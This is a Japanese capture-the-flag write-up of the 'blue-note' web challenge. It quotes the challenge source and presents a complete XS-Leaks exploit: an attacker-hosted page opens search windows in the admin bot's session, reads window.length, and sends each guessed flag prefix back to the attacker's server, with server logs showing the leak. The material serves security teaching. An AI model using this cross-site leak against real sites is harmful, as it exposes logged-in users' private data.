 # blue-note:Web:100pts
🎷🎶  

[blue-note.tar.gz](blue-note.tar.gz)  

Challenge: [http://34.170.146.252:15993](http://34.170.146.252:15993), Admin bot: [http://34.170.146.252:59345](http://34.170.146.252:59345)  

Challenge: [http://34.170.146.252:22481](http://34.170.146.252:22481), Admin bot: [http://34.170.146.252:42319](http://34.170.146.252:42319)  

# Solution
ソースファイルとURLが二つ(バックアップインスタンスのURLも二つ)渡される。  
ChallengeのURLにアクセスすると、noteを検索できるサイトのようだ。  
![site1.png](site/site1.png)  
Admin BotがあるためXS系だろうとにらむ。  
bot.jsのソースは以下の通りであった。  
```js
import puppeteer from "puppeteer";

const APP_HOST = "web";
const APP_PORT = "3333";
export const APP_URL = `http://${APP_HOST}:${APP_PORT}`;

const sleep = async (ms) => new Promise((resolve) => setTimeout(resolve, ms));

export const visit = async (url) => {
  console.log(`start: ${url}`);

  const browser = await puppeteer.launch({
    headless: "new",
    executablePath: "/usr/bin/google-chrome-stable",
    args: [
      "--no-sandbox",
      "--disable-dev-shm-usage",
      "--disable-gpu",
      '--js-flags="--noexpose_wasm"',
    ],
  });

  const context = await browser.createBrowserContext();

  try {
    const page = await context.newPage();
    await page.goto(`${APP_URL}/admin?secret=${process.env.ADMIN_SECRET}`, { timeout: 5 * 1000 });
    await page.goto(url, { timeout: 120 * 1000 });
    await page.click("button");
    await sleep(120 * 1000);
    await page.close();
  } catch (e) {
    console.error(e);
  }

  await context.close();
  await browser.close();

  console.log(`end: ${url}`);
};
```
競技者が知りえない`secret`をクエリに付加して`/admin`にアクセスした後に、任意のURLを開いて長時間`sleep`している。  
謎のボタンクリックもあるが、時間から見てもXS-Leaksのようだ。  
Challengeのindex.jsソースも見ると、以下の通りであった。  
```js
import Fastify from "fastify";
import view from "@fastify/view";
import fastifyCookie from "@fastify/cookie";
import ejs from "ejs";

const fastify = Fastify();

const notes = [
  { id: 1, title: "Note 1", content: "This is a note", adminOnly: false },
  { id: 2, title: "Note 2", content: "This is another note", adminOnly: false },
  { id: 3, title: "Flag", content: process.env.FLAG, adminOnly: true },
];

fastify.register(fastifyCookie, {
  secret: process.env.COOKIE_SECRET,
  parseOptions: {},
});

fastify.register(view, {
  engine: { ejs },
  root: "views",
});

const isAdmin = (req) => {
  const { valid, value } = req.unsignCookie(req.cookies.authenticated || "");
  return valid && value === "true";
}

fastify.get("/", async (req, res) => {
  const q = String(req.query.q);
  if (!q)
    return res.viewAsync("index.ejs", { notes: {} });
  const filteredNotes = notes.filter(note =>
    (note.title.includes(q) || note.content.includes(q)) &&
    (!note.adminOnly || isAdmin(req))
  );
  return await res.viewAsync("index.ejs", { notes: filteredNotes });
});

fastify.get("/note/:id", async (req, res) => {
  const { id } = req.params;
  const note = notes.find(note => note.id === Number(id) && (!note.adminOnly || isAdmin(req)));
  if (!note)
    return res.redirect("/");
  return await res.viewAsync("note.ejs", { note });
});

fastify.get("/admin", async (req, res) => {
  const secret = String(req.query.secret);
  if (secret === process.env.ADMIN_SECRET) {
    res.setCookie("authenticated", "true", { path: "/", httpOnly: true, signed: true });
    return res.redirect("/");
  }
  res.code(401).send(":(");
});

fastify.listen({ port: 3333, host: "0.0.0.0" });
```
Botが最初にアクセスする`/admin`では、クエリ`secret`が正しい場合にのみ`authenticated`なるcookieが`true`に設定される(`httpOnly`で`signed`)。  
これはAdmin Bot用で、XSSなどで`secret`を取得するのは難しそうだ。  
`/`へのアクセスでは、クエリ`q`で`notes`を検索でき、`authenticated`なcookieが`true`(つまりAdmin Bot)である場合に`Flag`というnoteが検索結果に含まれる。  
もう一度ChallengeのURLへアクセスし、すべてのnoteに含まれるであろう文字`a`を検索してみる(`?q=a`となる)。  
![site2.png](site/site2.png)  
Admin Botのみが検索できる`Flag`というnoteを除く、二件がヒットした。  
配布されたソースのindex.ejsを見てもわかるが、iframeで検索結果が埋め込まれるようだ。  
ここで`Flag`というnoteには`Alpaca{`という文字列が含まれているはずなので、`?q=Alpaca{`とするとAdmin Botの検索ではヒットするが我々の検索ではヒットしない。  
好きな文字列での検索をAdmin Botで行った際の、検索結果の有無が分かればフラグが一文字ずつ特定できそうだ。  
別ページから参照できる`window.length`で、iframeの数を検知するXS-Leaksテクニックがよく知られている。  
以下のようなleak.pyで攻撃ページを立ち上げて、一文字ずつリークする。  
```python
from flask import Flask, request

app = Flask(__name__)

flag = "Alpaca{"
# flag = "Alpaca{B.EV4N5"


@app.route("/")
def top():
    return f"""
<!doctype html>
<html>
    <head>
        <title>XS-Leaks</title>
    </head>
    <body>
        <button id="satoki">button</button>
        <script>
            (async function() {{
                
                function sleep(ms) {{
                    return new Promise(resolve => setTimeout(resolve, ms));
                }}

                const baseUrl = 'http://web:3333/?q=';
                const alphabet = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!?-_{{}} ';
                var flag = '{flag}';

                for (let i = 0; i < alphabet.length; i += 5) {{
                    const chunk = alphabet.slice(i, i + 5);
                    const sites = [];

                    for (const ch of chunk) {{
                        const site = window.open(baseUrl + encodeURIComponent(flag + ch));
                        sites.push({{ site, ch }});
                    }}

                    await sleep(2000);

                    for (const {{ site, ch }} of sites) {{
                        if (site.length === 1) {{
                            flag += ch;
                            fetch('/?ok=' + flag);
                        }}
                        site.close();
                    }}
                }}
            }})();
        </script>
    </body>
</html>
"""


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)
```
攻撃ページへの埋め込みiframeではcookieが付加されないので、`window.open`を用いる。  
また、buttonが無いとAdmin Botがボタンクリックできずにエラーで落ちるので注意する。  
Admin Botに報告すると以下のようなリクエストが届く。  
```
34.170.146.252 - - [01/Mar/2025 01:02:01] "GET / HTTP/1.1" 200 -
34.170.146.252 - - [01/Mar/2025 01:02:02] "GET /favicon.ico HTTP/1.1" 404 -
34.170.146.252 - - [01/Mar/2025 01:02:04] "GET /?ok=Alpaca{B HTTP/1.1" 200 -
```
`Alpaca{B`がリークできた。  
leak.pyの`flag`変数を更新して、Admin Botへの報告を繰り返す(自動化も可能だがBotが重いため注意)。  
```
34.170.146.252 - - [01/Mar/2025 02:03:05] "GET / HTTP/1.1" 200 -
34.170.146.252 - - [01/Mar/2025 02:03:06] "GET /favicon.ico HTTP/1.1" 404 -
34.170.146.252 - - [01/Mar/2025 02:03:47] "GET /?ok=Alpaca{B.EV4N5} HTTP/1.1" 200 -
```
繰り返すとflagが得られた。  
ちなみに謎のボタンクリックはポップアップを許可するためにつけたらしい(作問者談)。  

## Alpaca{B.EV4N5}